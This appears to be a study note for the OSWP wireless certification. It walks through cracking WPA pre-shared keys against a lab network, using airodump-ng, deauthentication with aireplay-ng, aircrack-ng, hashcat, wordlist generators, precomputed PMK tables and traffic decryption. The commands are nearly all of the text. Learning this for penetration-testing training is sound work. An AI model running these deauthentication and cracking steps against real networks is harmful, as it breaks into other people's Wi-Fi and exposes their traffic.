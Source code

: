 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/d-psk-cracking/","updated":"2024-01-05T11:37:18.508+01:00"}
---
```


------------
### Crack walkthrough:
1. Sniff nearby APs:
```
sudo airodump-ng wlan0mon
```
2. Tune dump with channel and SSIDs:
```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```
3. Start deauth:
```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
- If not captures handshake try without "-c"
4. Crack handshake:
```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
5. Decrypt traffic:
```
airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p 12345678 wpa-01.cap
```

---
### John cracking:
```
john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - ~/wpa-01.cap
```

----------------
### Crunch:
- Generate password lists
- Usage:
```
crunch <minlength> <maxlength> <characters> -t <pattern> -p <words>
```
- Example:
```
crunch 11 11 0123456789 -t password@@@
-
Crunch will now generate the following number of lines: 1000
password000
password001
password002
password003
```
- Example 2:
```
crunch 5 5 -t ddd% | aircrack-ng -e wifu crunch-01.cap -w -
```

--------
### RSMangler
- Ruby script for modifying wordlists in all ways
- Usage:
```
rsmangler --file wordlist.txt --min 12 --max 13 --output mangled.txt
```
Use with aircrack:
```
rsmangler --file wordlist.txt --min 12 --max 13 | aircrack-ng -e wifu rsmangler-01.cap -w -
```

-----
### Hashcat
- List cracking devices:
```
hashcat -I
```
- Run benchmark for mode:
```
hashcat -b -m <mode>
```
- Specify device:
```
hashcat -d <device-nr>
```
- Specify device type (CPU, GPU, FPGSA, DSP etc.):
```
hashcat -D <device-type>
```
- Convert .cap to hashcat-compatible:
```
/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx  
```
- Crack the hash:
```
hashcat -m 2500 output.hccapx /usr/share/john/password.lst  
```

------------
### Airolib-ng
- Tool to pre-generate PMKs which lets aircrack-ng check more than 50000 hashes/second
- Usage:
1. Create file containing ESSID of target AP:
```
echo wifu > essid.txt
```
2. Import ESSID into database:
```
airolib-ng <db-name>.sqlite --import essid essid.txt
```
3. List info about DB:
```
airolib-ng <db-name>.sqlite --stats
```
4. Import passwords to DB:
```
airolib-ng <db-name>.sqlite --import passwd /usr/share/john/password.lst
```
5. Process DB and generate PMKs:
```
airolib-ng <db-name>.sqlite --batch
```
6. Initiate crack:
```
aircrack-ng -r <db-name>.sqlite wpa1-01.cap
```

---------
### coWPAtty:
- Similar to airolib-ng, creates rainbow tables for ESSIDs
- Usage:
1. Generate table:
```
genpmk -f /usr/share/john/password.lst -d <outfile> -s <essid>
```
2. Crack with coWPAtty:
```
cowpatty -r wpajohn-01.cap -d <outfile> -s wifu
```

